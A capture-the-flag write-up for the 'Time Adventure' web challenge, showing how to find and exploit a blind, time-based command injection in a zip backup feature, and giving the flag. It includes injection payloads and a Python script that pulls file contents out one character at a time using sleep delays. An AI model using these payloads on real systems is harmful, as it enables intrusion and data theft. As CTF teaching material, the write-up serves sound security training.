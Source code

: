 # [WEB] Time Adventure

---

![timeadventure.png](../assets/timeadventure.png)

### 10th March 2024

**Author**: `kahang`

**Difficulty**: `Medium`

**Flag**: `FIA{t1m3_1s_4n_1llus10n}`

### Description

> *It's Adventure Time... Don't forget to back up your file.*
> 

### Objective

> Identifying and exploiting Blind Command Injection Vulnerabilities in the web application.
> 
### Skills Required
- Basic Web Fundamental & Exploitation
- Basic Linux Command
- Basic Python Programming
---

# Solution

## Information Gathering

- First, we need to know what this web does and what features does it have.

![Untitled](../assets/Untitled.png)

- So there is a function that executes a Linux command `zip` to package the whole directory `/var/www/html` into `/tmp` with a custom file name to the backend server.
- Next, view the Source of the website and see a suspicious comment.
- Press `Ctrl + U` or `Right Click → View page source`.
    
    ![2024-03-10_14h26_26.png](../assets/2024-03-10_14h26_26.png)
    

```html
<!-- Admin Note: I have saved a secret credential in a super secret text file located in the "/" folder. Please make sure to check it out. -->
```

- With this information, we can guess that there’s a text file `.txt` in **`/`** (Root Directory) that might contain interesting data with an unknown name.

## Identify Vulnerability

- Try to inject some basic **Command Injection** payload. For example `; whoami ;`

![Untitled](../assets/Untitled%201.png)

- As we can see the web says that this command has been executed but there is no actual information from the server display back so we can’t know whether was it executed or not.
- Let’s verify it by sending a delay command to see if the backend server interpreting it. With the payload is `; sleep 5;`

![ezgif-5-de44b10e52.gif](../assets/ezgif-5-de44b10e52.gif)

- We have noticed that after executing the command, a loading GIF appears with a 5-second delay as if the command were set to `sleep 5`.

![Untitled](../assets/Untitled%202.png)

- This can be concluded as a Blind Command Injection or Time-based Command Injection.

## Crafting Payload

- By using `cat` with wild card `*` , we can read all the files within a directory without the need of knowing the file name and the `cut`command is used for taking each character one by one.

![Untitled](../assets/Untitled%203.png)

- Adding a little if-else statement so that we can check if the character taken out matches or not.

![Untitled](../assets/Untitled%204.png)

## Solver

- We could use the *Side Channel Attack* technique to extract data. The main idea is to "manipulate time" and grep data with the `sleep`command character-by-character from the backend.

![Untitled](../assets/Untitled%205.png)

- Here is the whole script:

```python
import requests 
import time
url = "https://timeadventure.fiahackingisfun.id.vn/"
charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/"
flag = ""
# Payload: Checks if the character matches
payload = "; if [ \"$(cat /*.txt|cut -c{})\" = \"{}\" ]; then sleep 2; fi;"
while True:
    for char in charset:
        query_payload = payload.format(len(flag)+1, char)
        data = {"command": "backup", "target": query_payload}
        start_time = time.time()  # Starts recording the time
        # Sending Request
        res = requests.post(url, data=data)
        end_time = time.time()  # Stops recording the time
        real_time = end_time - start_time
        # If the entire request and response time > 2, then append the character
        if real_time > 2:
            flag += char
            break
    print(flag)
```

## Bonus

- As in the script above, I’ve used the whole characters set in ASCII format. The total amount of the set is 93 characters `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/` . In the worst case, we must have to brute force or send total requests to the web application 93 times for each character, and for the whole string “FIA{t1m3_1s_4n_1llus10n}” contains 24 characters, it’s gonna be `24 * 93 = 2304` possibilities.
- This kinda takes time and not efficiency, therefore we can convert to Hexadecimal or even Binary to decrease the amount of guessing each character. When converted to Hexadecimal, the length of the character now becomes 48 but the range of Hex is only 16 `(0 → F)`. Therefore, the total possibilities now are `48 * 16 = 768`.

![Untitled](../assets/Untitled%206.png)

- For the most optimization, we could convert it to Binary. From now on, the whole length of the string that we need to brute force is 192 characters and the possibility of each character is only 2 because Binary is `0 and 1`. Therefore, the possibility for guessing this string is `192 * 2 = 384`.

![Untitled](../assets/Untitled%207.png)